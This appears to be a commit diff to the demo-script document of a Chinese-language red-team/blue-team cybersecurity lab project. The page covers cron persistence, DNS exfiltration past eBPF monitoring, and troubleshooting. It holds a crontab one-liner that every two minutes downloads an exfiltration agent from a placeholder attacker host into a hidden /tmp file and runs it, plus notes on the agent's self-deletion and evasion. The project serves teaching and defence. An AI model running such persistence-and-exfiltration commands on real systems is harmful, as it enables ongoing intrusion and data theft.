

Before and after one commit to mickeytony0215-png/Cybersecurity-project, a Markdown page: docs/DEMO_FLOW.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/DEMO_FLOW.md
+++ b/docs/DEMO_FLOW.md
@@ -346,26 +375,22 @@ Agent 會自動：
 
 ### T3 — 植入 Crontab 持久化（為回合 7 埋伏筆）
 
-透過 C2 設定 crontab，讓 exfil agent 每 2 分鐘自動重新部署並執行：
+透過 C2 設定 crontab，讓 exfil agent 每 2 分鐘自動重新下載並執行：
 
 ```
-C2> bash red_team/deploy_agent.sh <ATTACKER_IP>
-```
-
-將產生的 deploy 指令改成 crontab 格式貼入 C2：
-
-```
-C2> (crontab -l 2>/dev/null; echo "*/2 * * * * echo '<base64>' | base64 -d > /tmp/.cache_update.py && python3 /tmp/.cache_update.py <ATTACKER_IP>") | crontab -
+C2> (crontab -l 2>/dev/null; echo "*/2 * * * * curl -sS http://<ATTACKER_IP>:8888/exfil_agent.py -o /tmp/.cache_update.py && python3 /tmp/.cache_update.py <ATTACKER_IP>") | crontab -
 ```
 
 > 這步不用特別展示，快速帶過即可。重點是讓回合 7 有持久化的前提。
+> Agent 執行完會自刪（`os.remove(__file__)`），所以 crontab 每次都要重新下載。
+> 這也是為什麼 deploy_agent.sh 的 HTTP server 要保持運行。
 
 ### 講解要點
 
 - 紅方取得控制後**立即**外傳資料 — 這才是真實攻擊的流程
 - DNS exfiltration 把資料編碼成 subdomain（`data.fileid.x.exfil.local`），看起來像普通 DNS query
 - 這類 covert channel 不觸發 eBPF 監控的任何 syscall pattern（沒有 memfd、沒有 reverse shell）
-- 同時植入 crontab 持久化，確保即使 C2 斷線，資料外傳也會持續
+- 同時植入 crontab 持久化（每次重新下載 + 執行 agent），確保即使 C2 斷線，資料外傳也會持續
 - MITRE ATT&CK: **T1053.003** (Scheduled Task/Job: Cron)
 
 ---
@@ -623,7 +656,7 @@ exfil agent 使用的 syscall：
 
 ### 講解要點
 
-- 回合 2b 植入的 crontab **存活了整場攻防** — 藍方的 eBPF kill、v2 升級都沒有清除它
+- 回合 2b 植入的 crontab **存活了整場攻防** — 藍方的 eBPF kill、v2 升級都沒有清除它（crontab 每次重新下載 agent，即使 agent 自刪也不影響）
 - eBPF 監控的是 **syscall 行為**，但 DNS exfiltration 用的全是合法 syscall
 - 防禦缺口：
   - eBPF v1/v2 不監控 DNS 流量內容
@@ -708,6 +741,9 @@ memfd blocked  TCP bypass      port detect      eBPF v2 偵測不到
 | 蜜罐 port 2222 被占用 | `sudo lsof -i :2222` 找出佔用進程 |
 | iptables 規則殘留 | `sudo bash cleanup.sh` 一鍵清除 |
 | ip_switch.sh IP 不對 | 用第二個參數自訂：`ip_switch.sh add 192.168.1.20` |
+| C2 執行 agent 顯示 timeout | agent 需 >15 秒，必須用 `nohup ... &` 背景執行（見回合 2b） |
+| curl 下載 agent 沒輸出 | 正常！`curl -sS` 成功時無輸出，有錯誤才會顯示 |
+| deploy_agent.sh HTTP server 啟動失敗 | Port 8888 被佔用，用第二個參數換 port：`deploy_agent.sh <IP> 9999` |
 | 上次 demo 殘留影響本次 | `sudo bash cleanup.sh`（清除程序、iptables、log、loot、crontab） |
 | 想預覽會清什麼 | `sudo bash cleanup.sh --dry` |
 
````
Also changed, not shown: other parts of docs/DEMO_FLOW.md (+51 -14 lines).
